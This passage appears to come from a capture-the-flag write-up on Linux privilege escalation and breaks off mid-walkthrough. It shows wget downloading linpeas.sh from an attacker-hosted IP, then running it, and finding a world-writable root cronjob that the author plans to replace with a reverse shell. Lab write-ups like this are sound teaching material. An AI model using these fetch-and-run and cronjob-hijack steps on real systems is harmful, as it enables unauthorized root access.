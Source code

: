 ```
boring@kral4-PC:/tmp$ wget 10.14.12.247:8000/linpeas.sh
--2021-11-30 13:55:44--  http://10.14.12.247:8000/linpeas.sh
Connecting to 10.14.12.247:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 633658 (619K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                                      100%[=====================================================================================================================================================>] 618.81K  1.04MB/s    in 0.6s    

2021-11-30 13:55:45 (1.04 MB/s) - ‘linpeas.sh’ saved [633658/633658]

boring@kral4-PC:/tmp$ chmod +x linpeas.sh 
boring@kral4-PC:/tmp$ ./linpeas.sh
```

Running `linpeas` we see there is an `anacron` cronjob running a shell script as root every minute. The shell script is in `/var/www/.mysecretcronjob.sh`

```
var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Jun 13  2020 .
drwxr-xr-x 6 root root 4096 Apr 26  2018 ..
-rw------- 1 root root    9 Nov 30 12:24 cron.daily
-rw------- 1 root root    9 Nov 30 12:34 cron.monthly
-rw------- 1 root root    9 Nov 30 12:29 cron.weekly

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh



SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
HOME=/root
LOGNAME=root

1       5       cron.daily      run-parts --report /etc/cron.daily
7       10      cron.weekly     run-parts --report /etc/cron.weekly
@monthly        15      cron.monthly    run-parts --report /etc/cron.monthly

```

Changing to that folder and checking the files with `ls -al` we see that the user `boring` (we) has full read/write. That means we can change the contents of the file and create a reverse shell. Since the user that runs the shell script through `anacron` is `root` we'll get a root shell.

The initial content of `.mysecretcronjob.sh`
